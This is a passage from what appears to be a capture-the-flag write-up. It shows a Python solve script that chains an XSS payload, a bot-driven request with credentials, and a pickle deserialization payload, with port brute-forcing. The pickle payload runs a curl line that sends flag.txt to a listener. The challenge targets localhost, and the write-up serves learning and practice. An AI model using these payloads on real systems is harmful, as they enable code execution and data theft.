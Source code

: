 ```python
    print(f'DEBUG: {res.text}')
    

WEB_URL = "http://127.0.0.1:1337"
BOT_URL = "http://127.0.0.1:1336"

def solve(port):
    obj = Pickle()
    pickled = pickle.dumps(obj)
    print(f'Pickled data: {pickled.hex()}')

    xss = f"""
    <script>
        fetch('/query', {{
            method: 'POST',
            mode: 'cors',
            credentials: 'include',
            headers: {{
                'Content-Type': 'application/json',
            }},
            body: JSON.stringify({{
                'url': 'http://127.0.0.1:{port}/pickle?pickle={pickled.hex()}'
            }})
        }});
    </script>
    """.strip().replace('\n', '')

    encoded = requests.utils.quote(xss)
    path = '?name=' + encoded
    print(encoded)

    visit(BOT_URL, path)


for port in range(5700, 6000):
    solve(port)
```

My deserialization payload would basically do this:

```
curl http://localhost:8888/?flag=`cat flag.txt`
```

We just need to set a listener on port 8888 to receive the flag!
![image](https://github.com/user-attachments/assets/6bba2413-0c31-4101-a44c-8777696aa3d1)


This is the overall XSS payload

```javascript
<script>
    fetch('/query', {{
        method: 'POST',
        mode: 'cors',
        credentials: 'include',
        headers: {{
            'Content-Type': 'application/json',
        }},
        body: JSON.stringify({{
            'url': 'http://127.0.0.1:{port}/pickle?pickle={pickled.hex()}'
        }})
    }});
</script>
```
